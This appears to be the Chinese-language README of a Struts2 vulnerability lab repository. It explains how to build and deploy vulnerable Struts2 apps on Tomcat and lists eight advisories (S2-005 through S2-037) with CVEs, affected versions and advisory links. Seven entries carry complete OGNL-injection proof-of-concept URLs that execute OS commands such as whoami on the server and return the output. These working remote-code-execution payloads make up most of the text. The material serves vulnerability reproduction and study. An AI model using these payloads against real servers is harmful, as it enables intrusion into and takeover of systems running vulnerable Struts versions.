 # 环境
Requires Java 1.8+ and Maven 3.x+

# 使用方法
1.下载
git clone https://git.oschina.net/0d/Struts2_bugs.git

2.查看远程分支
git branch -a

3.切换到分支
git checkout 分支名
如git checkout S2-037

4.打包
mvn clean package

5.部署在Tomcat中
将\target中生成的Struts2-037.war复制到Tomcat下的webapps目录中，然后开启Tomcat
访问http://127.0.0.1:8080/Struts2-037/orders/3

# 相关信息

1.S2-005

CVE-2010-1870

影响版本：Struts 2.0.0 – Struts 2.1.8.1 

官方公告：http://struts.apache.org/docs/s2-005.html

POC:
http://127.0.0.1:8080/Struts2-005/index.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(h)(('\43webRootzpro\75@java.lang.Runtime@getRuntime().exec(\43req.getParameter("cmd"))')(d))&(i)(('\43webRootzproreader\75new\40java.io.DataInputStream(\43webRootzpro.getInputStream())')(d))&(i01)(('\43webStr\75new\40byte[1000]')(d))&(i1)(('\43webRootzproreader.readFully(\43webStr)')(d))&(i111)(('\43webStr12\75new\40java.lang.String(\43webStr)')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)(('\43xman.getWriter().println(\43webStr12)')(d))&(i99)(('\43xman.getWriter().close()')(d))&cmd=cmd /c whoami

2.S2-009

CVE-2011-3923

影响版本：Struts 2.0.0 -Struts 2.3.1.1

官方公告：http://struts.apache.org/docs/s2-009.html

POC:
http://127.0.0.1:8080/Struts2-009/index.action?class.classLoader.jarPath=%28%23context["xwork.MethodAccessor.denyMethodExecution"]%3d+new+java.lang.Boolean%28false%29%2c+%23_memberAccess["allowStaticMethodAccess"]%3dtrue%2c+%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew+java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char[50000]%2c%23c.read%28%23d%29%2c%23sbtest%3d%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23sbtest.println%28%23d%29%2c%23sbtest.close%28%29%29%28meh%29&z[%28class.classLoader.jarPath%29%28%27meh%27%29]

3.S2-013

CVE-2013-1966

影响版本：Struts 2.0.0 – Struts 2.3.14

官方公告：http://struts.apache.org/docs/s2-013.html

POC:
http://127.0.0.1:8080/Struts2-013/index.action?a=1${(%23_memberAccess["allowStaticMethodAccess"]=true,%23a=@java.lang.Runtime@getRuntime().exec('whoami').getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[50000],%23c.read(%23d),%23sbtest=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23sbtest.println(%23d),%23sbtest.close())}

4.S2-016 

CVE-2013-2251

影响版本：Struts 2.0.0 – Struts 2.3.15

官方公告：http://struts.apache.org/docs/s2-016.html

POC:
http://127.0.0.1:8080/Struts2-016/index.action?redirect:$%7B%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B'whoami'%7D)).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader%20(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char%5B50000%5D,%23d.read(%23e),%23matt%3d%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println%20(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()%7D

5.S2-019

CVE-2013-4316

影响版本：Struts 2.0.0 – Struts 2.3.15.1

官方公告：http://struts.apache.org/docs/s2-019.html

POC:
http://127.0.0.1:8080/Struts2-019/index.action?debug=command&expression=%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23resp=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23a=(new java.lang.ProcessBuilder(new java.lang.String[]{'whoami'})).start(),%23b=%23a.getInputStream(),%23c=new java.io.InputStreamReader(%23b),%23d=new java.io.BufferedReader(%23c),%23e=new char[1000],%23d.read(%23e),%23resp.println(%23e),%23resp.close()


6.S2-020

CVE-2014-0094

影响版本：Struts 2.0.0 – Struts 2.3.16

官方公告：http://struts.apache.org/docs/s2-020.html

POC:暂无


7.S2-032

CVE-2016-3081

影响版本：Struts 2.3.18 – Struts 2.3.28 

官方公告：http://struts.apache.org/docs/s2-032.html

POC:
http://127.0.0.1:8080/Struts2-032/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=whoami&pp=\\A&ppp=%20&encoding=UTF-8


8.S2-037

CVE-2016-4438

影响版本：Struts 2.3.20 - Struts 2.3.28.1

官方公告：http://struts.apache.org/docs/s2-037.html

POC:
http://127.0.0.1:8080/Struts2-037/orders/3/(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=whoami
